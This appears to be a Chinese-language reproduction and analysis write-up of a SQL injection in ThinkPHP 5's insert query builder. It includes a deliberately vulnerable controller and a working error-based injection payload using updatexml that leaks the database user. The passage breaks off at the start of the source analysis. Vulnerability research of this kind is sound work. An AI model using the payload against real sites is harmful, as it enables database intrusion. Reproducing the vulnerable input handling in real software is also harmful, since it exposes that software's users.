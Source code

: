```
create table users(id int auto_increment primary key,username varchar(20),password varchar(30));
insert into users(username,password) values("user","password");
```

![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/202204071559929.png)

`applicaion/database.php`

```php
<?php

return [
    // 数据库类型
    'type'            => 'mysql',
    // 服务器地址
    'hostname'        => '127.0.0.1',
    // 数据库名
    'database'        => 'thinkphp_v5',
    // 用户名
    'username'        => 'thinkphp_v5',
    // 密码
    'password'        => 'thinkphp_v5',
    // 端口
    'hostport'        => '3306',
```

同时在`application/config.php`中开启`debug`模式(`'app_debug' => true`),否则报错注入没有回显

## 漏洞复现

```php
<?php
namespace app\index\controller;
use think\Db;

class Index
{
    public function index()
    {
        $username = input('get.username/a');
        Db::table("users")->where(["id"=>1])->insert(["username"=>$username]);
    }
}
```

`index.php?username[0]=inc&username[1]=updatexml(1,concat(0x7e,user(),0x7e),1)&username[2]=1`

![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/202204071635736.png)

## 漏洞分析

```php
#thinkphp/library/think/db/Query.php
    /**
     * 插入记录
     * @access public
     * @param mixed   $data         数据
     * @param boolean $replace      是否replace
     * @param boolean $getLastInsID 返回自增主键
     * @param string  $sequence     自增序列名
     * @return integer|string
     */
    public function insert(array $data = [], $replace = false, $getLastInsID = false, $sequence = null)
    {
```